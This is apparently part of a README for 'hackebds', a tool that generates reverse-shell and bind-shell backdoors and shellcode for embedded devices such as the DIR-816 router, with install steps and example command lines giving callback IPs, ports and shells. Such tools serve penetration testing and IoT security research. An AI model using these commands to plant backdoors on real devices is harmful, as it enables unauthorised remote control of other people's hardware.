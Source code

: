 （If you want this tool to run on a MacOS system, you need to include python/bin in the bashrc environment variable）

```
echo 'export PATH="/Users/{you id}/Library/Python/{your installed python}/bin:$PATH"'>> ~/.bashrc
```

![image-20221125095653018](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221125095653018.png)


![image-20221121142622451](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221121142622451.png)

#### Instructions for use

![image-20221118202002242](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221118202002242.png)

Please install the corresponding binutils environment before use
expample:

```
Ubuntu（debian）:
  apt search binutils | grep arm（You can replace it here， if not please execute "apt update" first）
  apt install binutils-arm-linux-gnueabi/hirsute
 MacOS:
 	 https://github.com/Gallopsled/pwntools-binutils
 	 brew install https://raw.githubusercontent.com/Gallopsled/pwntools-binutils/master/osx/binutils-$ARCH.rb
```

1. Use the command line to generate the backdoor file name, shellcode, bindshell, etc

   ![image-20221206180431454](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221206180431454.png)

   Redesigned the relationship between model and arch, enabled the regeneration backdoor to directly specify the device model, but the model needs to match the name listed in the - l parameter

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 9999 -model DIR-816 -res reverse_shell_file
   ```

   ![image-20230710112652819](https://myblog-1257937445.cos.ap-nanjing.myqcloud.com/img/image-20230710112652819.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shellcode
   ```

   ![image-20221102181217933](https://raw.githubusercontent.com/doudoudedi/blog-img/master/uPic/image-20221102181217933.png)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file
   ```

   By default, the reverse shell backdoor is created using sh. If bash is required (PS: here, the bash command needs to exist on the target device)

   ```
   hackebds -reverse_ip 127.0.0.1 -reverse_port 8081 -arch armelv7 -res reverse_shell_file -shell bash
   ```
